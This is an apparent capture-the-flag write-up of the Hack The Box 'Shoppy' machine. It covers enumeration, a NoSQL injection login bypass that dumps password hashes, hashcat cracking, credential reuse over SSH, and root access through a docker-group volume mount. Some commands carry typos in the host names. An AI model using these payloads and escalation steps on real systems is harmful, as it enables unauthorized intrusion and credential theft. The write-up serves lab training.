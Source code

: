 ```yaml
---
cover: ../../.gitbook/assets/Shoppy.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shoppy



## Scanning

### Network

First, add the virtual DNS :

```bash
echo '10.10.11.180 shoppy.htb'|tee -a /etc/hosts
```

Scan the target host :

```bash
nmap shoppy.htb
```

The output is :&#x20;

<figure><img src="../../.gitbook/assets/shoppy-nmap.png" alt=""><figcaption></figcaption></figure>

Go to http://shoppy.htb and you will have this page :&#x20;

<figure><img src="../../.gitbook/assets/shoppy-htb.png" alt=""><figcaption></figcaption></figure>

### Web

Try to enumerate subdirectories with `dirbuster` or `wfuzz` :

```bash
wfuzz -u http://shoppy.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 404
dirbuster -u http://shoppy.htb -l /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/shoppy-wfuzz.png" alt=""><figcaption></figcaption></figure>

Scan subdomains.

```bash
wfuzz -u http://stocker.htb \
      -H "Host: FUZZ.shoppy.htb" \
      --hc 301 \
      -w /usr/share/secLists/master/Discovery/DNS/subdomains-top1million-110000.txt
```

Try to go to http://shoppy.htb/admin and you get this result : &#x20;

<figure><img src="../../.gitbook/assets/shoppy-login.png" alt=""><figcaption></figcaption></figure>

It seems to be a custom page, try sql injection :&#x20;

<figure><img src="../../.gitbook/assets/shoppy-injection.png" alt=""><figcaption></figcaption></figure>

It works, you get this page :&#x20;

<figure><img src="../../.gitbook/assets/shoppy-admin-panel.png" alt=""><figcaption></figcaption></figure>

You can inject code to return all data and download the JSON file :

```sql
'; return '' == '
```

```json
[
    {
        "_id":"62db0e93d6d6a999a66ee67a",
        "username":"admin",
        "password":"23c6877d9e2b564ef8b32c3a23de27b2"
    },
    {
        "_id":"62db0e93d6d6a999a66ee67b",
        "username":"josh",
        "password":"6ebcea65320589ca4f2f1ce039975995"
    }
]
```

There are two hashed passwords : `23c6877d9e2b564ef8b32c3a23de27b2` and `6ebcea65320589ca4f2f1ce039975995`. Crack these hashes with Hashcat :

```bash
echo '23c6877d9e2b564ef8b32c3a23de27b2 6ebcea65320589ca4f2f1ce039975995'|tee hashes.txt
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat --show -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Hashcat has cracked a hash for josh :

```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Thus you have credentials `josh:remembermethisway`.&#x20;

You get the subdomain `mattermost.shoppy.htb`. Thus go to http://mattermost.shoppy.htb.

<figure><img src="../../.gitbook/assets/shoppy-mattermost-login.png" alt=""><figcaption></figcaption></figure>

Try the credentials `josh:remembermethisway`. Go to "Deploy Machine" tab and you will find new credentials.

<figure><img src="../../.gitbook/assets/shoppy-ssh-credentials.png" alt=""><figcaption></figcaption></figure>

Try the SSH connection :

```bash
ssh jaeger@shoppy.htb  # password "Sh0ppyBest@pp!"
```

<figure><img src="../../.gitbook/assets/shoppy-ssh-josh.png" alt=""><figcaption></figcaption></figure>

```bash
cat /home/jaeger/user.txt
```

Then, list sudo permissions :

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/shoppy-sudo.png" alt=""><figcaption></figcaption></figure>

Import file from the target machine to the attacker to decompile it.

```bash
# target
cd /home/deploy/
python3 -m http.server
```

```bash
curl -o password http://shoppt.htb:8000/password-manager
```

Start Ghidra and decompile the file.

<figure><img src="../../.gitbook/assets/shoppy-sample.png" alt=""><figcaption></figcaption></figure>

Try to execute the following command on the target machine :

```bash
sudo -u deploy /home/deploy/password-manager  # password "Sample"
```

The password is valid, it returns new credentials `deploy:Deploying@pp!`. Try these credentials with SSH :

```bash
ssh deploy@shoppy.htb  # password "Deploying@pp!"
```

It works and the user deploy has the group `docker`.

```bash
docker images
```

There is an existing image named `alpine`. Mount the folder `/root` in on `/mnt` :

```bash
docker run -it -v /root:/mnt alpine
```

Once you're inside of the container, you can find the flag in `/mnt` folder :

```bash
cat /mnt/root.txt
```
